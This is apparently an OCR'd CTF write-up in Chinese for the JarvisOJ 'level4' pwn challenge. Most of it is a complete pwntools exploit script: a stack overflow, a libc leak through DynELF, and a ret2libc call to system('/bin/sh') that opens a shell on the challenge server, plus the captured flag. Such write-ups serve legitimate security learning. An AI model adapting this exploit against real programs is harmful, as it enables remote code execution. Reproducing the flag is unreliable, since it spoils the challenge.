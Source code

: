    栈溢出，ret2libc

   先通过write搞到system地址，没给出libc那就用DynELF

   搞到地址之后再次溢出，先调用read在bss段写入/bin/sh，返回到system执行

   ```python
   from pwn import *
   r = remote('pwn2.jarvisoj.com', 9880)
   elf = ELF('./level4')
   padding = 'a' * (0x88 + 0x4)
   write_addr = elf.plt['write']
   main_addr = elf.symbols['main']
   read_addr = elf.plt['read']
   
   def leak(addr):
   	payload = padding
   	payload += p32(write_addr)
   	payload += p32(main_addr)
   	payload += p32(1) + p32(addr) + p32(4)
   	r.sendline(payload)
   	leak_addr = r.recv(4)
   	return leak_addr
   
   d = DynELF(leak,elf = ELF('./level4'))
   system_addr = d.lookup('system','libc')
   print(hex(system_addr))
   
   bss_addr = elf.bss()
   payload1 = padding
   payload1 += p32(read_addr)
   payload1 += p32(system_addr)
   payload1 += p32(0) + p32(bss_addr) + p32(8)
   payload1 += p32(bss_addr)
   
   r.sendline(payload1)
   r.sendline('/bin/sh\0')
   r.interactive()
   #CTF{882130cf51d65fb705440b218e94e98e}
   ```

   

* 



